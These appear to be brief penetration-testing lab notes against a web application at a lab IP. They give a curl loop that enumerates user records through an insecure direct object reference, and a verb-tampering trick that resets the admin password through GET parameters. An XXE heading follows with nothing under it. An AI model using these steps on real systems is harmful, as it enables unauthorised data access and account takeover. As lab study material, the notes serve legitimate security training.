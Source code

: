 1. Enumerate users (IDOR)
```shell-session
for i in {1..100}; do curl -s "http://94.237.48.12:39808/api.php/user/$i" -H "Cookie: PHPSESSID=d8sskie22digjhc13fra80lh62; uid=$i"; echo; done >> wow.txt
```
- Admin is uid 52

2. HTTP Verb Tampering
- Get token in change password portal for admin
- Change POST to GET and put the data as parameters: reset.php?uid=52&token=3253&password=test123

3. XXE
